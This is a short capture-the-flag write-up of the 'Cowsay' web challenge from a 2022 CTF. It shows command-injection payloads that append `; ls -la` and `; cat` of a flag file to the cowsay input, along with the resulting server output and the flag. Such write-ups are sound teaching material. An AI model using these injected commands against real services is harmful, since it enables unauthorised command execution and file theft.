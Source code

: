 # Cowsay (150)
#### web - Virginia TSA Technosphere 2022 CTF

## Challenge description:
> Let your business be cowsay enabled! Enjoy the finest cowsay experience thanks to our revolutionary, and secure API.
>
> [https://vatsa-cowsay.chals.io/](https://vatsa-cowsay.chals.io/)

## Solution
Cowsay is a command, leading me to believe this was a command injection. 

Trying several payloads, eventually `*munches grass* ; ls -la` worked.
```
 _________________ 
< *munches grass* >
 ----------------- 
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
total 24
drwxr-xr-x    1 root     root          4096 Apr 14 16:40 .
drwxr-xr-x    1 root     root          4096 Apr 14 16:46 ..
-rw-r--r--    1 root     root           852 Mar 11 15:33 app.py
drwxr-xr-x    2 root     root          4096 Apr 14 16:40 cowsay
-rw-r--r--    1 root     root           384 Feb 23 12:14 requirements.txt
drwxr-xr-x    2 root     root          4096 Apr 14 16:40 templates
```
Traversing the directory system, I eventually came across the flag with the payload `*munches grass* ; cat ../home/cowsay/flag.txt`

```
 _________________ 
< *munches grass* >
 ----------------- 
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
**********************
```
<details> 
    <summary>Flag</summary>
flag{c0ws4Y_Inj3ct10N}
</details>